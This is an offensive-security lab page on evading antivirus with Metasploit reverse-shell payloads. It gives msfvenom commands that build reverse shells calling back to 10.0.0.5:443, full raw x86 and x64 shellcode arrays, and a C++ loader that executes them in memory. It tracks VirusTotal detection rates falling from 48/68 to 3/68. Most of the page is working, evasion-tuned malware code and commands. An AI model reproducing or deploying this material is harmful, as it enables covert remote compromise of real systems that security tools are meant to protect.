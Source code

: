 # AV Bypass with Metasploit Templates and Custom Binaries

This is a quick look at a couple of simple ways that **attempt** to bypass antivirus vendors for your shellcodes.

## 48/68 detections

For a baseline test, let's generate the standard MSF reverse shell payload for a 32 bit Windows system:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f exe > /root/tools/av.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Checking the file in [VirusTotal](https://www.virustotal.com/#/file/ebf62a6140591b6ccf81035a7f06b3a6580144cfa5a9de0ad49dd323c4513ee3/detection) gives the following detection rate:

![](../../.gitbook/assets/msf-templates-default-payload.png)

## 36/68 detections

When generating metasploit payloads, our specified shellcode gets injected into the template binaries. The payload we generated earlier got injected into the template for which the source code is provided below:

![](../../.gitbook/assets/msf-template.png)

Out of curiosity, let's simply recompile the standard template:

```text
root@/usr/share/metasploit-framework/data/templates/src/pe/exe# i686-w64-mingw32-gcc template.c -lws2_32 -o avbypass.exe
```

...and regenerate the payload using the newly compiled template:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -x /usr/share/metasploit-framework/data/templates/src/pe/exe/avbypass.exe -f exe > /root/tools/avbypass.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 363382 bytes
```

[VirusTotal](https://www.virustotal.com/#/file/c311065c151bdd98efc3c413016a7817f6089985e799121007dd993230c530bd/detection) detections for the new executable dropped from 48 to 36 and that did not require any code change!

![](../../.gitbook/assets/msf-template-vt2.png)

## 32/66 detections

If we make a couple of small changes to the code for memory allocation sizes:

![](../../.gitbook/assets/msf-template-sizes.png)

...it seems that we can further reduce [VirusTotal](https://www.virustotal.com/#/file/1b2dc633c5709435cd956e214f5417488c04e39ac58ccf5aa8bba4813dc9c005/detection) detections albeit not by much - this time they drop from 36 to 32:

![](../../.gitbook/assets/msf-template-vt3.png)

## 8/68 detections - custom x86 binary

Let's do something a bit more custom - build a binary from the previous lab [CreateRemoteThread Shellcode Injection](../code-injection-process-injection/process-injection.md) that is based on the payload:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```

{% code title="inject-local-process.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\xbd\x85\x3b\x76\xa3\xda\xd8\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
		"\x52\x31\x6b\x12\x83\xeb\xfc\x03\xee\x35\x94\x56\x0c\xa1\xda"
		"\x99\xec\x32\xbb\x10\x09\x03\xfb\x47\x5a\x34\xcb\x0c\x0e\xb9"
		"\xa0\x41\xba\x4a\xc4\x4d\xcd\xfb\x63\xa8\xe0\xfc\xd8\x88\x63"
		"\x7f\x23\xdd\x43\xbe\xec\x10\x82\x87\x11\xd8\xd6\x50\x5d\x4f"
		"\xc6\xd5\x2b\x4c\x6d\xa5\xba\xd4\x92\x7e\xbc\xf5\x05\xf4\xe7"
		"\xd5\xa4\xd9\x93\x5f\xbe\x3e\x99\x16\x35\xf4\x55\xa9\x9f\xc4"
		"\x96\x06\xde\xe8\x64\x56\x27\xce\x96\x2d\x51\x2c\x2a\x36\xa6"
		"\x4e\xf0\xb3\x3c\xe8\x73\x63\x98\x08\x57\xf2\x6b\x06\x1c\x70"
		"\x33\x0b\xa3\x55\x48\x37\x28\x58\x9e\xb1\x6a\x7f\x3a\x99\x29"
		"\x1e\x1b\x47\x9f\x1f\x7b\x28\x40\xba\xf0\xc5\x95\xb7\x5b\x82"
		"\x5a\xfa\x63\x52\xf5\x8d\x10\x60\x5a\x26\xbe\xc8\x13\xe0\x39"
		"\x2e\x0e\x54\xd5\xd1\xb1\xa5\xfc\x15\xe5\xf5\x96\xbc\x86\x9d"
		"\x66\x40\x53\x31\x36\xee\x0c\xf2\xe6\x4e\xfd\x9a\xec\x40\x22"
		"\xba\x0f\x8b\x4b\x51\xea\x5c\x7e\xa6\xf4\x99\x16\xa4\xf4\xa0"
		"\x5d\x21\x12\xc8\xb1\x64\x8d\x65\x2b\x2d\x45\x17\xb4\xfb\x20"
		"\x17\x3e\x08\xd5\xd6\xb7\x65\xc5\x8f\x37\x30\xb7\x06\x47\xee"
		"\xdf\xc5\xda\x75\x1f\x83\xc6\x21\x48\xc4\x39\x38\x1c\xf8\x60"
		"\x92\x02\x01\xf4\xdd\x86\xde\xc5\xe0\x07\x92\x72\xc7\x17\x6a"
		"\x7a\x43\x43\x22\x2d\x1d\x3d\x84\x87\xef\x97\x5e\x7b\xa6\x7f"
		"\x26\xb7\x79\xf9\x27\x92\x0f\xe5\x96\x4b\x56\x1a\x16\x1c\x5e"
		"\x63\x4a\xbc\xa1\xbe\xce\xcc\xeb\xe2\x67\x45\xb2\x77\x3a\x08"
		"\x45\xa2\x79\x35\xc6\x46\x02\xc2\xd6\x23\x07\x8e\x50\xd8\x75"
		"\x9f\x34\xde\x2a\xa0\x1c";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```
{% endcode %}

This time [VirusTotal](https://www.virustotal.com/#/file/f4dfceb473a878a3751513bacb4d44ee460391ce1a668edb5337d4859e767335/detection) detections dropped dramatically to 8/68:

![](../../.gitbook/assets/msf-vt5.png)

## 3/68 detections - custom x64 binary

The above binaries were all for a x86 architecture. Let's try generating the shellcode for a x64 system and use the same custom binary:

```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```

{% code title="inject-local-process.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```
{% endcode %}

[VirusTotal](https://www.virustotal.com/#/file/d1431f479724822d6ccf8684a99598d966a9b5a964e7bd3886308a0217dea712/detection) now only shows **3/68** detections, which is a great improvement that enables us bypassing most of the popular antivirus vendors:

![](../../.gitbook/assets/msf-vt4.png)

## References

{% embed url="https://www.offensive-security.com/metasploit-unleashed/backdooring-exe-files/" %}

